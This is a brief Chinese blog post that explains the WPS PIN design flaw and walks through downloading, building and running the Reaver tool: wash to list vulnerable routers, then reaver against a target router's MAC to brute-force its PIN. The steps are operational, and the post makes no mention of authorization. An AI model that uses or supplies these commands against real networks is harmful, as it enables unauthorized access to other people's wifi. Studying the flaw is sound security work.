 ```yaml
---
layout: post
category: wifi破解
title: PIN码破解
tagline: by 赵宏阳
tags: [wifi破解]
---
```

# PIN码破解 #

为了方便用户连接wifi，Wi-Fi联盟出台了一个解决方案Wi-Fi Protectd Setup，简称WPS，但是这个方法有个安全漏洞。本文用Linux的Reaver软件使用穷举法破解PIN码。PIN码共8位十进制数，分为前四位，后三位和最后一位，其中最后一位为校验位，可以根据前面几位计算出来。所以穷举的次数为：10^4+10^3 = 11000。PIN码破解需要在信号强度很强的地方进行，强度负号后面数字大表示信号弱,数字小表示信号强。
1. 下载源码`wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz`
1. 安装依赖库`apt-get install libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev`
1. 编译安装

    cd  src

    ./configure

    make

    make install

1. wash -i mon0 -C      //查看支持PIN码破解的无线路由 
1. reaver -i mon0 -b 路由MAC地址 -S -a -p 路由PIN码 -vv //开始PIN破解